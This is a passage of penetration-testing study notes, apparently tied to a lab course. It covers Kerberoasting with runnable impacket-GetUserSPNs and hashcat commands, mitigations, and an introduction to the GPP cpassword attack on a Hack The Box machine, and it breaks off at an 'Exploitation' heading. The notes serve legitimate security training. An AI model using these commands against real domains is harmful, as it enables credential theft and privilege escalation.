 * Remember, a valid username and password must be in your possession for this to work

Step 1: Get <mark style="color:yellow;">SPNs</mark> and <mark style="color:yellow;">dump hash</mark>

Example Syntax:

```
impacket-GetUserSPNs MARVEL.local/fcastle:Password1 -dc-ip 10.10.10.1 -request
```

Step 2: Copy/paste hash and place into a text file called kerberoast\_hash.txt

Step 3: Crack the hash with Hashcat

```
hashcat -m 13100 kerberoast_hash.txt rockyou.txt
```

## Kerberoasting Mitigations

* There is nothing that you can really do to defend against kerberoasting since it is taking advantage of a Windows feature
* There are two basic strategies that have been proven effective

Strategies:

* Strong passwords
* Enforcement of least privilege

<mark style="color:yellow;">Do NOT ever make your service accounts Domain Administrators or of a high privilege.</mark>

## Group Policy Preferences (GPP Attack)&#x20;

This is also known as <mark style="color:yellow;">MS14-025</mark>

* Admins created policies using embedded credentials
* These credentials were encrypted and placed in "cpassword"
* The key was accidentally leaked by Microsoft
* This was patched in MS14-025, but does not prevent previous uses

This means that we can DECRYPT THIS PASSWORD AT ANYTIME.

## Abusing GPP

* This attack is going to take place on Hack The Box's "Active" box
* From the nmap scan, we are able to quickly identify that this is more than likely a Domain Controller because we see things such as:
  * 53
  * 88
  * LDAP
  * LDAPSSL

### Exploitation
